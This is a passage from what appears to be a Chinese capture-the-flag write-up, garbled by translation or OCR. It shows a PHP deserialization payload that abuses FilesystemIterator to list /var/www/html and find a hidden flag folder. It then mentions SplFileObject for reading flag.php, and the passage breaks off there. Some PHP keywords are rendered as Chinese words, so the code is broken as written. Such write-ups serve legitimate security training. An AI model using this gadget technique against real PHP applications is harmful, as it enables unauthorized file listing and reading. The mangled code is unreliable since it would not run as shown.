     
      
    class  A { public $class = 'FilesystemIterator' ;    // FilesystemIterator("/var/www/html") public $para = "/var/www/html/" ; 公共$check ;     }  
           
          
           
           
      
      
    $poc   = new A();   
    回声序列化（$poc）；  
      
  
---|---  
  
`  
`

`得到有效载荷：`

`  
`

``

`PHP`

``

    
    
    1  
    

|

    
    
    O: 1 : "A" : 3 :{s: 5 : "class" ;s: 18 : "FilesystemIterator" ;s: 4 : "para" ;s: 14 : "/var/www/html/" ;s ：5：“检查” ;N;}  
      
  
---|---  
  
`  
`

`执行后得到一个文件夹aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084317.png)`

`并在这个文件夹中找到了flag.php：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084319.png)`

`然后我们使用 SplFileObject 类读取flag.php就行了：`

`  
`

``

`PHP`

